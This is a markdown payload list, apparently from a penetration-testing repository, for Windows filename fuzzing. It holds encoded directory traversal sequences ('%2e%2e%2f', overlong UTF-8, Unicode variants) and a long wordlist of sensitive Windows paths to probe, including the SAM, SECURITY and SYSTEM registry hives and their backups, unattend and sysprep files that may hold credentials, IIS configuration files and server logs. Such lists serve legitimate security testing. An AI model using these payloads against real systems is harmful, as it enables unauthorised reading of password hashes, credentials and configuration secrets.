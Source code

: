 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Windows filename fuzzing

## Encoded directory traversal strings

```
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
```

## Filename fuzzing strings
```
\inetpub\logs\logfiles\w3svc1\u_ex[yymmdd].log
\$recycle.bin\s-1-5-18\desktop.ini
\boot.ini
\documents and settings\administrator\desktop\desktop.ini
\documents and settings\administrator\ntuser.dat
\documents and settings\administrator\ntuser.ini
\inetpub\logs\logfiles
\inetpub\wwwroot\global.asa
\inetpub\wwwroot\index.asp
\inetpub\wwwroot\web.config
\log\access.log
\log\access_log
\log\error.log
\log\error_log
\log\httpd\access_log
\log\httpd\error_log
\logs\access.log
\logs\access_log
\logs\error.log
\logs\error_log
\logs\httpd\access_log
\logs\httpd\error_log
\minint\smsosd\osdlogs\variables.dat
\sysprep.inf
\sysprep\sysprep.inf
\sysprep\sysprep.xml
\sysprep.xml
\system32\inetsrv\metabase.xml
\system volume information\wpsettings.dat
\unattended.txt
\unattended.xml
\unattend.txt
\unattend.xml
\users\administrator\desktop\desktop.ini
\users\administrator\ntuser.dat
\users\administrator\ntuser.ini
\windows\csc\v2.0.6\pq
\windows\csc\v2.0.6\sm
\windows\debug\netsetup.log
\windows\explorer.exe
\windows\iis5.log
\windows\iis6.log
\windows\iis7.log
\windows\iis8.log
\windows\iis6.log
\windows\iis10.log
\windows\notepad.exe
\windows\panther\setupinfo
\windows\panther\setupinfo.bak
\windows\panther\sysprep.inf
\windows\panther\sysprep.xml
\windows\panther\unattended.txt
\windows\panther\unattended.xml
\windows\panther\unattend\setupinfo
\windows\panther\unattend\setupinfo.bak
\windows\panther\unattend\sysprep.inf
\windows\panther\unattend\sysprep.xml
\windows\panther\unattend.txt
\windows\panther\unattend\unattended.txt
\windows\panther\unattend\unattended.xml
\windows\panther\unattend\unattend.txt
\windows\panther\unattend\unattend.xml
\windows\panther\unattend.xml
\windows\repair\sam
\windows\repair\security
\windows\repair\software
\windows\repair\system
\windows\system32\config\appevent.evt
\windows\system32\config\default.sav
\windows\system32\config\regback\default
\windows\system32\config\regback\sam
\windows\system32\config\regback\security
\windows\system32\config\regback\software
\windows\system32\config\regback\system
\windows\system32\config\sam
\windows\system32\config\secevent.evt
\windows\system32\config\security.sav
\windows\system32\config\software.sav
\windows\system32\config\system
\windows\system32\config\system.sa
\windows\system32\config\system.sav
\windows\system32\drivers\etc\hosts
\windows\system32\eula.txt
\windows\system32\inetsrv\config\applicationhost.config
\windows\system32\inetsrv\config\schema\aspnet_schema.xml
\windows\system32\license.rtf
\windows\system32\logfiles\httperr\httperr1.log
\windows\system32\sysprep.inf
\windows\system32\sysprep\sysprep.inf
\windows\system32\sysprep\sysprep.xml
\windows\system32\sysprep\unattended.txt
\windows\system32\sysprep\unattended.xml
\windows\system32\sysprep\unattend.txt
\windows\system32\sysprep\unattend.xml
\windows\system32\sysprep.xml
\windows\system32\unattended.txt
\windows\system32\unattended.xml
\windows\system32\unattend.txt
\windows\system32\unattend.xml
\windows\system.ini
\windows\windowsupdate.log
\windows\win.ini
\winnt\win.ini
```